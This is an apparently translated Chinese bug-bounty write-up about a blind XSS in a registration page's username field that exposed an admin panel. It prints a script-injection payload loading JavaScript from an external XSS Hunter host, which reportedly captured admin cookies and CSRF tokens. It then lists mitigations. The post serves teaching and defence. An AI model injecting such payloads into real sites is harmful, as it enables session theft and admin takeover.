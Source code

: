 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzI0MTUwMjQ5Nw==&mid=2247488985&idx=1&sn=1ff0c68a9ed7d0907ed159eca923f6a3

#  在注册页面中利用盲 XSS：接管管理面板并产生实际影响  
原创 红云谈安全  红云谈安全   2025-06-15 08:57  
  
**免责声明**  
  
由于传播、利用本公众号红云谈安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号红云谈安全及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！  
如有侵权烦请告知，我们会立即删除并致歉。谢谢！请在授权的站点测试，遵守网络安全法！  
**仅供**  
**学习使用，****如若非法他用，与平台和本文作者无关，需自行负责！**  
# 介绍  
  
在最近的一次漏洞搜寻过程中，我在一个价值3000 美元的私人项目的注册页面中发现了一个**高危盲跨站脚本 (Blind XSS) 漏洞**（影响级别 P2） 。该漏洞位于用户名字段中，我在其中注入了一个盲跨站脚本载荷。第二天，我的XSS 猎人实例启动了，显示了管理面板界面的图片以及一些敏感信息。************************  
  
本文探讨了**方法论、影响和缓解技术**，为渗透测试人员和开发人员提供了宝贵的见解，以保护他们的应用程序免受此类高影响漏洞的侵害。  
# 理解盲XSS  
  
与**反射型 XSS 或存储型 XSS**不同，盲 XSS 会在攻击者无法立即收到响应的环境中触发。注入的有效载荷会在**特权用户**访问时执行，通常是在**内部仪表板、管理面板或支持工单系统**中。  
# 逐步利用  
# 1. 识别注入点  
- 注册**页面**接受一个
```
username
```

参数，该参数由后端管理员存储并随后处理。  
- 没有**适当的清理或输出编码**，使其成为**盲 XSS**的完美候选者。  
# 2. 注入有效载荷  
  
我使用XSS Hunter制作了一个**盲 XSS 有效载荷**：****  

```
&#34;><scriptsrc=&#34;https://mianhammad.xsshunter.com/xss.js&#34;></script>
```

- 有效载荷被注入到**用户名字段**中。  
- 注册后，应用程序会将该值存储在其数据库中。  
# 3.等待执行  
  
- 由于这是一个**盲 XSS**，因此我必须等到管理员访问受感染的条目。  
- 第二天，**XSS Hunter**记录了执行情况，并捕获了**管理面板界面的屏幕截图**。  
- 有效载荷泄露了**cookie、CSRF 令牌和其他敏感数据**，从而**可能导致完全管理员接管**。  
# 漏洞的影响  
  
**成功的盲 XSS 攻击**可能会造成**严重后果**，包括：  
  
**管理面板接管**——如果管理员的会话被劫持，攻击者就可以完全控制该平台。  
  
**数据泄露**——访问敏感的用户记录、付款详情和内部报告。  
  
**权限提升**——利用管理员会话执行恶意操作，例如修改用户帐户。  
  
**广泛的内部攻击**——如果应用程序是大型企业系统的一部分，攻击者可以转向其他领域。  
# 开发人员和渗透测试人员的缓解策略  
# 1. 实现输出编码  
- 在 HTML、JavaScript 或内部属性中呈现用户输入之前对其进行编码。  
- 使用安全库来
```
DOMPurify
```

有效地清理输入。  
# 2. 应用内容安全策略（CSP）  
- 将脚本执行限制在可信来源。  
- 使用以下 CSP 指令来阻止内联脚本：  

```
Content-Security-Policy: default-src 'self'; script-src 'self';
```

# 3. 强制执行 Web 应用程序防火墙 (WAF)  
- 使用 WAF 检测并阻止常见的**XSS 负载**。  
- 定期更新防火墙规则以涵盖新的攻击技术。  
# 4. 清理并验证用户输入  
- **对所有用户控制的**字段实施强有力的输入验证。  
- 拒绝或正确转义特殊字符，例如
```
< > &#34; ' &
```

。  
# 5. 进行安全审计和漏洞赏金  
- 定期在内部管理界面测试**盲 XSS 。**  
- 利用漏洞赏金计划在攻击者之前发现安全漏洞。  
# 结论  
  
此盲 XSS 案例凸显了**保护管理工作流程的重要性**。许多组织只关注**前端安全**，而后端和**管理界面却容易受到攻击**。通过实施**适当的输入清理、CSP 和安全监控**，开发人员可以防止此类攻击并保护敏感的用户数据。  
  
  
  
  
  
